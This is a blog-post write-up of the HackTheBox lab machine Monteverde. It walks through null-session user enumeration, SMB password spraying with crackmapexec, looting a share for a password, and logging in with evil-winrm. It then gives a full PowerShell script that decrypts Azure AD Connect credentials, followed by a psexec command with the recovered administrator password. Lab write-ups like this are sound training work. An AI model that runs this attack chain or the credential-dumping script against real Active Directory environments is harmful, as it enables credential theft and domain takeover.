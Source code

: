 ```yaml
---
layout: single
title:  "HTB - Monteverde Writeup - 10.10.10.172"
date:   2020-06-18 16:49:23 +0100
categories: hackthebox
excerpt: My walkthrough / writeup of the HTB AD machine Monteverde.
---
```

![HTB](/images/monteverde/2020-06-19_14-43.png)

# HackTheBox - Monteverde - 10.10.10.100

Monteverde is a 30 point medium rated machine on hackthebox, that involves using rpcclient with null authentication to pillage domain usernames, then using hydra to use those usernames and usernames as passwords to find valid credentials. Once found we find the password for user `mhope` in a SMB share and we use his credentials to get a shell on the box. Once we are `mhope` we find he is a memeber of the Azure AD Admins groups so we can use a powershell script to decrypt the admin's credentials from the SQL database used by Azure AD Sync.

## 1. Recon 
To start this box off we will do an nmap scan of the target machine, 10.10.10.172  `nmap -sC -sV -oA nmap/monteverde 10.10.10.172` 
### Nmap Scan Results
```
Nmap scan report for 10.10.10.172
Host is up (0.061s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-24 18:36:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/24%Time=5E2B36F6%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m22s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-24T18:38:12
|_  start_date: N/A
```
Some ports of note here are:
1. RPC - Maybe we can get null authentication 
2. SMB - Maybe some useful files
3. LDAP - ldapquery?

### RPC Enumeration
Firstly we will try to get a connection to rpc with null authentication, using rpcclient: 
`rpcclient -U "" 10.10.10.172` `enumdomusers`
![rpc](/images/monteverde/2020-06-19_14-34.png)

Bingo, now we have a list of users!

## 2. Finding some credentials
Now we have a list of usernames we can try to bruteforce login credentials, using those usernames as passwords, first save the usernames to a file like this:
![usersfile](/images/monteverde/2020-06-19_14-37.png)

We can then use crackmapexec to bruteforce smb logins, if you want to read more about cme then the link to the github page is [here](https://github.com/byt3bl33d3r/CrackMapExec).

If we pass the arguments -u for users file and -p for password file, we can bruteforce logins:

`crackmapexec smb 10.10.10.172 -u usersfile.txt -p passfile.txt`
![cme](/images/monteverde/2020-06-19_14-49.png)
Nice, we got a valid login using the credentials, `SABatchJobs:SABatchJobs`, we can now try to enumerate the smb shares.

## 3. Getting More Credentials

### SMB Enumeration
To list all the smb shares we will use smbclient, which is built into Kali.

`smbclient -U "SABatchJobs" -L \\10.10.10.172`
![shares](/images/monteverde/2020-06-19_14-53.png)

The one share that stands out is the users$, as it is not a default Windows share like SYSVOL or IPC$

Let's try and connect using our credentials
`smbclient -U "SABatchJobs" \\\\10.10.10.172\\users$`
![smb-share](/images/monteverde/2020-06-19_15-01.png)

Nice, we can see the files in the users$ share, lets download all the files and see if there is anything interesting
`prompt OFF`, `recurse ON`, `mget *`
![files](/images/monteverde/2020-06-19_15-04.png)

The only file in the share was an `azure.xml` file, let;s see what's inside
`cat azure.xml`
![epic](/images/monteverde/2020-06-19_15-06.png)

Bingo! We have the password for the user `mhope`.

### Getting User
Now that we have the password for the user `mhope` we can try to login over winrm, for this I will be using a tool called [evil-winrm](https://github.com/Hackplayers/evil-winrm).

`evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$`

![htb](/images/monteverde/user.gif)

## 4. Privesc to Domain Admin

Now that we have a shell we can do some enumeration, firstly, `whoami /all`
![whoami](/images/monteverde/2020-06-19_15-24.png)

We can see we are a part of the azure admins, this means that with the right commands or script we can dump the admin password from the mssql database that Azure AD Connect uses, there is a great article by XPNSec that explains this [here](https://blog.xpnsec.com/azuread-connect-for-redteam/). So if we use the powershell script from the blog but with the connection string changed to work with this DB we should be good. Allternativly I will use a tool made by [fox-it on github](https://github.com/fox-it/adconnectdump), to decrypt the password as I could not get the powershell script to work for me. 

Here is the script the exe is based on:

{% highlight powershell linenos %}
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
{% endhighlight %}

Now if we save the exe and dll from the fox-it github to our local machine, we can upload it using evil-winrm to the box

![upload](/images/monteverde/2020-06-19_15-46.png)

Now if we naviagate to: `C:\Program Files\Microsoft Azure AD Sync\Bin` and run `\Users\mhope\Documents\AdDecrypt.exe -FullSQL` we get the admin credentials

![creds](/images/monteverde/2020-06-19_15-51.png)

Now we can just use these creds to psexec into the box and grab the root flag

## Pwned

`psexec.py megabank/Administrator:"d0m@in4dminyeah!"@10.10.10.172`

![root](/images/monteverde/root.gif)

If you enjoyed my write up or found it useful please check out my htb profile linked below and give a +rep

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)

